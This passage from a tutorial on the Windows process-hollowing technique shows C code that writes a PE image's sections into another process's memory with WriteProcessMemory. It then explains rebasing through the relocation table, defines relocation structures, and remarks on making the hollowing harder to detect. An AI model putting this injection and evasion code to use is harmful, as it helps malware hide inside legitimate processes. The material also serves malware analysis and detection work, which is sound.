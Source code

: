 	for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)
	{
		  if (!pSourceImage->Sections[x].PointerToRawData)
				continue;

		  PVOID pSectionDestination =
				(PVOID)((DWORD)pPEB->ImageBaseAddress +
					  pSourceImage->Sections[x].VirtualAddress);

		  printf
		  (
				"Writing %s section to 0x%p\r\n",
				pSourceImage->Sections[x].Name, pSectionDestination
		  );

		  if (!WriteProcessMemory
		  (
				pProcessInfo->hProcess,            
				pSectionDestination,               
				&pBuffer[pSourceImage->Sections[x].PointerToRawData],
				pSourceImage->Sections[x].SizeOfRawData,
				0
		  ))
		  {
				printf ("Error writing process memory\r\n");
				return;
		  }
	}    
 
As was mentioned earlier taking this step a bit further by applying the proper memory protection options to the different sections would make the hollowing harder to detect.

Rebasing The Source Image
If the delta calculated in the prior step is not zero the source image must be rebased. To do this, the bootstrap application makes use of the relocation table stored in the .reloc section. The relevant IMAGE_DATA_DIRECTORY, accessed with the IMAGE_DIRECTORY_ENTRY_BASERELOC constant, contains a pointer to the table. 

		IMAGE_DATA_DIRECTORY relocData = pSourceHeaders->
			  OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
 
The relocation table itself is broken down into a series of variable length blocks, each containing a series of entries for a 4KB page. At the head of each relocation block is the page address along with the block size, followed by the relocation entries. Each relocation entry is a single word; the low 12 bits are the relocation offset, and the high 4 bits are the relocation types. C bit fields can be used to easily access these values.

	typedef struct BASE_RELOCATION_BLOCK {
		  DWORD PageAddress;
		  DWORD BlockSize;
	} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

	typedef struct BASE_RELOCATION_ENTRY {
		  USHORT Offset : 12;
		  USHORT Type : 4;
	} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;
 